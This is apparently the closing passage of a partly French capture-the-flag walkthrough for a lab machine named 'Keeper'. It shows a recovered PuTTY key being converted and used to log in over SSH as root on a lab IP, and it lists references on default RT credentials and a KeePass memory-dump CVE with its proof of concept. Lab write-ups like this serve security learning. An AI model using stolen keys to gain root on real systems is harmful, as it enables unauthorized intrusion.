 ```console
$ puttygen key.ppk -O private-openssh -o key.pem
$ ssh -i key.pem root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Ref

- [Credentials par défault](https://forum.bestpractical.com/t/forgot-admin-password-of-rt/33451/2)
- [CVE-2023-32784](https://sysdig.com/blog/keepass-cve-2023-32784-detection/)
- [POC CVE-2023-32784](https://github.com/CMEPW/keepass-dump-masterkey)